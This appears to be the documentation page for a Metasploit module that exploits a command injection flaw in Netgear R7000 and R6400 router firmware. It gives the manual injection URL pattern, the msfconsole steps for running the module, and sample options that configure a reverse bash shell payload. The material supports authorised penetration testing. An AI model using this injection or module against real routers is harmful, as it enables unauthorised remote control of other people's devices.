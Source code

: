 The netgear_r7000_command_injection module exploits a command injection vulnerability in Netgear R7000 and R6400 router firmware version `1.0.7.2_1.1.93` and possibly earlier. The vulnerability is found in the `/cgi-bin/` folder of the router. A manual injection would look like so: `http://<RouterIP>/cgi-bin/;echo$IFS"cowsay"`. This will echo 'cowsay' on the router. 


## Vulnerable Application

Netgear R7000 and R6400 routers running firmware version `1.0.7.2_1.1.93` and possibly earlier.

## Verification Steps

  1. Start msfconsole
  2. Do: `use exploit/linux/http/netgear_r7000_cgibin_exec`
  3. Do: `set RHOST <RouterIP>`
  4. Do: `set PAYLOAD <payload>
  5. Do: `run`
  6. If the router is a R7000 or R6400, the module should run

## Options

  **RHOST**

  This should usually be the local IP address of the vulnerable router.

  **PAYLOAD**
  
  The valid payloads are `cmd/unix` payloads _only_, as this is a command execution module

## Scenarios

  Sample output of the options looks like so 

  ```
  msf exploit(netgear_r7000_cgibin_exec) > options

Module options (exploit/linux/http/netgear_r7000_cgibin_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST    192.168.1.1      yes       The target address
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.153.34   yes       The listen address
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target

msf exploit(netgear_r7000_cgibin_exec) > 
  ```
  
  
